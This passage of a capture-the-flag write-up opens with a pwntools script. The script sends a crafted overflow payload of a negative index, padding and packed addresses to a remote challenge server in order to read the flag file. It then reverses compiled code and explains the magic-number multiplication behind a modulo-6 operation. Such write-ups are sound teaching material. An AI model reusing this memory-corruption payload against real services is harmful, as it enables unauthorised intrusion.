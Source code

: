 ```
#!/usr/bin/python3

from pwn import *

#p = process('./image-viewer')
p = remote('plsdonthaq.me', 5003)

p.readuntil('pls')
p.sendline('trivial')

# checking byte alignment
p.readuntil('truth')
#filename = b'./flat earth truth\x00'
filename = b'./flag\x00'
p.sendline(b'-2' + b'AA' + filename + b'A' * (108 - len(filename)) + p32(0xfffffffe) + p32(0x804c064))

p.interactive()
```

## Reversing: Chal.jpg

---

{% asset_img chal.jpg %}

_The magic numbers really threw me off_

My only thought when this compiled to something very close to the image was, "_Why is it that simple!?_ "
So I looked into it a bit more. I believe here's what the mod operation does (atleast in C)

1. Use the "magic number", in this case `0x2aaaaaab`, integer multiply with the sum of the two arguments.
2. Then get the top bit of the number. If the number is negative (top bit is 1), it would then subtract it from the product calculated in 1.
3. Now I call it the "magic number", because somehow at this point it has the calculated the largest number that when multiplied by 6 (the number that the sum is modded by) gives the largest number less than the sum. For example, if `(arg1 + arg2) == 13` then the calculated number is `2`. And `2 * 6 == 12` is the largest multiple of `6` less than `13`
4. The triple `add` instructions are simply multiplying the number calculated in (3) by `6`.
5. Then it subtracts the largest multiple from the sum and returns the remainder.
6. I also checked out odd number mods and that shifts the number to the right by `1` before shifting it back by `2`. hmmmmm
7. It also becomes very different when I optimize using the `-O2` flag.

```
int re_this(int arg1, int arg2) {
    return (arg1 + arg2) % 6;
}

```
